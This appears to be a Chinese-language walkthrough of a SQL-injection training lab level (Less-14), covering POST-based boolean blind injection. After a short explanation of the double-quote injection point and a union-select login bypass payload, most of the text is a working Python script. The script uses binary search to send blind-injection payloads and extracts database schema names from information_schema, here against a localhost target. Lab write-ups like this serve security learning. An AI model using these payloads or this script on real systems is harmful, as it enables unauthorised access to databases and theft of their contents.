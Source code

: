 # Lesson-14
```
Bool盲注POST)
```

首先通过添加双引号根据报错得到部分SQL语句
这题比较重要的一点就是找出后台PHP文件是如何判断登陆成功的
这里通过判断猜测到应该是通过判断select获得的结果集的长度
因此这里需要这样构造用户名 : 
`" union select 1,1-- `
联合查询就会保证结果集一定不为空 , 这样就可以在union select中再添加from和where语句构造出bool值
然后就可以进行bool盲注
> 后记 :
后来通过查看源码发现 , 这里是将来用户POST的数据先在两端添加双引号 , 然后再对SQL语句进行构造
> 再后记 :
最开始做这道题其实是整错了 , 可以不使用union select语句的 , 直接使用or语句构造一个bool的参数就可以通过响应体来判断是否正确执行了 , 这里出现错误的原因是选择的标志不对 , 这个表示再上一个关卡是有的 , 但是这一关卡又没了

```
这里直接给出脚本 : 
```
```
#!/usr/bin/env python
# encoding:utf8

import requests
import time
import sys

# config-start
sleep_time = 5
error_time = 1
# config-end

def getPayload(indexOfResult, indexOfChar, mid):
	# admin' or ()-- 
	column_name="schema_name"
	table_name="schemata"
	database_name="information_schema"
	payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + "  limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
	payload = {"uname":"\" or (" + payload + ")-- ","passwd":"admin"}
	return payload

def exce(indexOfResult,indexOfChar,mid):
	# content-start
	url = "http://127.0.0.1/Less-14/"
	postData = getPayload(indexOfResult,indexOfChar,mid)
	content = requests.post(url, data=postData).text
	# content-end
	# judge-start
	if "flag.jpg" in content:
		return True
	else:
		return False
	# judge-end

def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
	while left_number < right_number:
		mid = int((left_number + right_number) / 2)
		if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
			left_number = mid
		else:
			right_number = mid
		if left_number == right_number - 1:
			if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
				mid += 1
				break
			else:
				break
	return chr(mid)

def search():
	for i in range(32): # 需要遍历的查询结果的数量
		counter = 0
		for j in range(32): # 结果的长度
			counter += 1
			temp = doubleSearch(i, j, 0, 128) # 从255开始查询
			if ord(temp) == 1: # 当为1的时候说明已经查询结束
			    break
			sys.stdout.write(temp)
			sys.stdout.flush()
		if counter == 1: # 当结果集的所有行都被遍历后退出
			break
		sys.stdout.write("\r\n")
		sys.stdout.flush()

search()
```
